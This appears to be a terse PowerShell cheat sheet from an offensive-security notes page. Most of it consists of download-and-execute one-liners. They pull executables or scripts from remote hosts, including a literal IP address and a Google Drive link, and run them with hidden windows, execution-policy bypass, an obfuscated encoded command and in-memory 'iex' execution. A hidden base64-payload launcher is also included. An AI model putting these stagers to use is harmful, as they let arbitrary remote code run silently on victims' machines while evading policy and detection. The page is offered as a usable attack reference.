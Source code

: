 <!-- TITLE: Powershell -->
<!-- SUBTITLE: A quick summary of Powershell -->

# Get Help
```text
get-help Get-EventLog -ShowWindow
```

# Change Execution policy
```text
Set-executionPolicy -Scope CurrentUser Unrestricted
```

# Execute
```text
%COMSPEC% /B /C start powershell.exe -Command $si = New-Object
System.Diagnostics.ProcessStartInfo;$si.FileName = 'powershell.exe';
$si.Arguments = ' -EncodedCommand [BASE64 PAYLOAD] ';
$si.UseShellExecute = $false;
$si.RedirectStandardOutput = $true;$si.WindowStyle = 'Hidden';
$si.CreateNoWindow = $True;
$p = [System.Diagnostics.Process]::Start($si);
```

# Download and Execute
Good reference for many ways:  https://www.greyhathacker.net/?p=500

rmudge_loader.exe - runs executable

```text
powershell (New-Object System.Net.WebClient).DownloadFile('http://<ip>',c:\temp\test.exe'); (New-Object -com Shell.Application).ShellExecute('c:\temp\test.exe');

PowerShell (New-Object System.Net.WebClient).DownloadFile('http://www.greyhathacker.net/tools/messbox.exe','mess.exe');Start-Process 'mess.exe'

powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

```

```
More
powershell.exe -command PowerShell -ExecutionPolicy bypass -noprofile -windowstyle hidden -command (New-Object System.Net.WebClient).DownloadFile('https://drive.google.com/uc?export=download&id=0B1NUTMCAOKBTdVQzTXlUNHBmZUU',"$env:APPDATA\ps.exe");Start-Process ("$env:APPDATA\ps.exe")


## Version1
c:\Windows\System32\cmd.exe /c powershell.exe -w hidden -noni -nop -c "iex(New-Object System.Net.WebClient).DownloadString('http://45.58.34.196:8080/p')"


## Version2
c:\windows\system32\cmd.exe /c PowErsHelL.EXE -eXecUtiONPoLICy bYPass -NOPROfilE -WinDoWSTYlE hiDden -EnCodeDcOmmAnd IAAoAE4AZQB3AC0ATwBiAEoAZQBDAFQAIABzAFkAcwB0AEUAbQAuAG4AZQBUAC4AdwBlAGIAQwBsAEkARQBOAFQAKQAuAEQATwBXAG4AbABvAGEAZABGAEkAbABlACgAIAAdIGgAdAB0AHAAcwA6AC8ALwBqAHQAYQBiA
```

# Execute in memory

# Invoke DLL functions
